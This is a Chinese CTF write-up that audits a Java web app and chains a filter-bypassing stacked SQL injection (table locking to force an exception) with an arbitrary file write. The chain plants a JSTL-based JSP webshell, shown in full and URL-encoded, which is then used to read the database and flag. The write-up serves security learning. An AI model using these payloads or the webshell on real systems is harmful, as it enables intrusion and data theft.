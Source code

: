 首先审计看关键代码
~~~
public String auth(@RequestParam String username, @RequestParam String password, HttpServletRequest request){
    String message="社工库未查询到泄露记录，你的账号是安全的。";

    if(SafeUtil.sql_check(username) || SafeUtil.sql_check(password)){
        message="stop sql inject!";
        return message;
    }

    try {
        String sql = "select username,password from app_user where username ='" + username + "' and password ='" + password + "' ;";
        ResultSet resultSet = DbUtil.getInstance().query(sql);
        if (null != resultSet) {
            while (resultSet.next()) {
                message = "您的QQ账号密码已经泄露，请立即修改密码";
                break;
            }
        }
    }catch (Exception e){
        e.printStackTrace();
        message="数据查询出错";
    }
    insertQueryLog(username,password);
    return message;
}
~~~
跟进看过滤
~~~
public static boolean sql_check(String sql){

    sql = sql.toLowerCase(Locale.ROOT);
    String ban[] = {"'",
            "file",
            "information",
            "mysql",
            "from",
            "update",
            "delete",
            "select",",","union","sleep","("};
    for (String s:ban) {
        if(sql.contains(s)){
            return true;
        }
    }
    return false;
}
~~~
虽然过滤的单引号，直接转义绕过，继续看配置文件config.properties
url=jdbc:mysql://127.0.0.1:3306/app?characterEncoding=utf-8&useSSL=false&&autoReconnect=true&allowMultiQueries=true&serverTimezone=UTC
db_username=root
db_password=root

明显开启了堆叠，而且没过滤分号，直接堆叠可以注入，但是其他的无法绕过
继续看代码，跟进 insertQueryLog(username,password);
~~~
private int insertQueryLog(String username,String password){
    String sql = "insert into app_query_log(username,password) values(?,?);";
    Connection connection = DbUtil.getConnection();
    PreparedStatement preparedStatement;
    int count=0;
    try {
        connection.setAutoCommit(false);
        preparedStatement=connection.prepareStatement(sql);
        preparedStatement.setQueryTimeout(3);
        preparedStatement.setString(1,username);
        preparedStatement.setString(2,password);
        count = preparedStatement.executeUpdate();
        connection.commit();
    } catch (SQLException e) {
        LogUtil.save(username,password);
        e.printStackTrace();
    }

    return count;
}
~~~
跟进LogUtil.save方法
~~~
public class LogUtil {
    public LogUtil() {
    }

    public static void save(String username, String password) {
        FileUtil.SaveFileAs(username, password);
    }
}
~~~
继续跟进FiltUtil.SaveFileAs方法
~~~
public static boolean SaveFileAs(String content, String path) {
    FileWriter fw = null;

    boolean var4;
    try {
        fw = new FileWriter(new File(path), false);
        if (content != null) {
            fw.write(content);
        }

        return true;
    } catch (IOException var14) {
        var14.printStackTrace();
        var4 = false;
    } finally {
        if (fw != null) {
            try {
                fw.flush();
                fw.close();
            } catch (IOException var13) {
                var13.printStackTrace();
            }
        }

    }

    return var4;
}
~~~
那么思路就清晰起来了，只要报异常，就能以username为内容，password为文件名来实现任意文件写
但是过滤了(就很伤，没有办法调用方法
所以到这里时，需要解决两个问题：

- 让sql报错，进入catch异常，实现任意文件写
- 不用括号，读取数据库内容

接着我们来一一解决
首先看看要让其报错的语句
String sql = "insert into app_query_log(username,password) values(?,?);";
很明显是一个插入语句，怎么才能失败呢，有几种方法

1.修改app_query_log表，让username为主键，重复插入时会报异常。
2.删除app_query_log表，找不到要插入的表，报异常
3.锁表

我们这里使用比较优雅的方式，就是锁表来实现
第一步，先锁表，禁止更新的情况下，插入会报异常。
username=a\&password=;flush tables with read lock;%23
第二步，写入jsp文件，由于过滤了括号，这时候只能使用jstl标签来执行，完美避开了括号
下面是标签执行sql语句并回显的小马
~~~
<%@ page language="java" contentType="text/html; charset=UTF-8"
    pageEncoding="UTF-8"%>
<%@ taglib uri="http://java.sun.com/jsp/jstl/sql" prefix="sql"%>
<%@ taglib uri="http://java.sun.com/jsp/jstl/core" prefix="c"%>
<%@ page isELIgnored="false" %>
<sql:setDataSource var="test" driver="${param.driver}"
        url="${param.url}" user="root" password="root" />
   <sql:query dataSource="${test}" var="result">
        ${param.sql}
    </sql:query>

<table border="1" width="100%">
        <tr>
            <th>ctfshow</th>
        </tr>
        <c:forEach var="row" items="${result.rows}">
            <tr>
                <td><c:out value="${row.t}" /></td>
            </tr>
        </c:forEach>
    </table>
~~~    

被过滤的关键字，一律使用get参数注入，绕过waf，payload如下：

~~~
    username=%3C%25%40%20page%20language%3D%22java%22%20contentType%3D%22text%2Fhtml%3B%20charset%3DUTF-8%22%0A%20%20%20%20pageEncoding%3D%22UTF-8%22%25%3E%0A%3C%25%40%20taglib%20uri%3D%22http%3A%2F%2Fjava.sun.com%2Fjsp%2Fjstl%2Fsql%22%20prefix%3D%22sql%22%25%3E%0A%3C%25%40%20taglib%20uri%3D%22http%3A%2F%2Fjava.sun.com%2Fjsp%2Fjstl%2Fcore%22%20prefix%3D%22c%22%25%3E%0A%3C%25%40%20page%20isELIgnored%3D%22false%22%20%25%3E%0A%3Csql%3AsetDataSource%20var%3D%22test%22%20driver%3D%22%24%7Bparam.driver%7D%22%0A%20%20%20%20%20%20%20%20url%3D%22%24%7Bparam.url%7D%22%20user%3D%22root%22%20password%3D%22root%22%20%2F%3E%0A%20%20%20%3Csql%3Aquery%20dataSource%3D%22%24%7Btest%7D%22%20var%3D%22result%22%3E%0A%20%20%20%20%20%20%20%20%24%7Bparam.sql%7D%0A%20%20%20%20%3C%2Fsql%3Aquery%3E%0A%0A%0A%0A%3Ctable%20border%3D%221%22%20width%3D%22100%25%22%3E%0A%20%20%20%20%20%20%20%20%3Ctr%3E%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20%3Cth%3Et%3C%2Fth%3E%0A%20%20%20%20%20%20%20%20%3C%2Ftr%3E%0A%20%20%20%20%20%20%20%20%3Cc%3AforEach%20var%3D%22row%22%20items%3D%22%24%7Bresult.rows%7D%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%3Ctr%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ctd%3E%3Cc%3Aout%20value%3D%22%24%7Brow.t%7D%22%20%2F%3E%3C%2Ftd%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Ftr%3E%0A%20%20%20%20%20%20%20%20%3C%2Fc%3AforEach%3E%0A%20%20%20%20%3C%2Ftable%3E&password=../webapps/ROOT/1.jsp
~~~   

成功生成1.jsp作为小马
第三步，使用小马，查询数据库所有表的名字
http://xxx/1.jsp?driver=com.mysql.jdbc.Driver&url=jdbc:mysql://localhost:3306/app?characterEncoding=utf-8&useSSL=false&&autoReconnect=true&allowMultiQueries=true&serverTimezone=UTC&sql=select group_concat(table_name) as t from information_schema.tables where table_schema="app";

第四步，读取flag值
http://xxx.com/1.jsp?driver=com.mysql.jdbc.Driver&url=jdbc:mysql://localhost:3306/app?characterEncoding=utf-8&useSSL=false&&autoReconnect=true&allowMultiQueries=true&serverTimezone=UTC&sql=select f1ag as t from app_flag_xxoo_non0 union select 1;
